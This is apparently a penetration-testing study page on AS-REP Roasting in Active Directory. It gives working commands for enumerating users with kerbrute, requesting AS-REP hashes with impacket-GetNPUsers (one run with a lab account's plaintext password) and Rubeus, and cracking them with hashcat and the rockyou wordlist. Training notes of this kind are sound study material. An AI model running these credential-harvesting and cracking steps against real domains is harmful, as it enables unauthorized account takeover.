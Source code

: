 # AS-REP Roasting

Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as [_AS-REP Roasting_](https://harmj0y.medium.com/roasting-as-reps-e6179a65216b).

## Linux

Veryify usernames with kerbrute:

{% code overflow="wrap" %}
```shell
kerbrute -domain hutch.offsec -users ./users.txt -dc-ip 192.168.219.122
```
{% endcode %}

On Kali, we can use [**impacket-GetNPUsers**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to perform AS-REP roasting:

{% code overflow="wrap" %}
```sh
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
{% endcode %}

* **-dc-ip:** IP address of the domain controller
* **-outputfile:** name of the output file (contains AS-REP hash)
* **-request:** request the TGT
* **domain/user:** use the user needed for authentication and enter their password when prompted

Extract AS-REP hashes with credentials:

{% code overflow="wrap" %}
```
impacket-GetNPUsers hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.219.122
```
{% endcode %}

\




## Windows

[_Rubeus_](https://github.com/GhostPack/Rubeus) is a toolset for raw Kerberos interactions and abuses.

As a pre-authenticated domain user: don't have to provide any other options to Rubeus except **asreproast.** Rubeus will automatically identify vulnerable user accounts

```sh
.\Rubeus.exe asreproast /nowrap
```

* **/nowrap:** prevent new lines being added to the AS-REP hashes

## Crack the hash

Find the correct hashcat mode for the AS-REP hash:&#x20;

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:

{% code overflow="wrap" %}
```sh
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
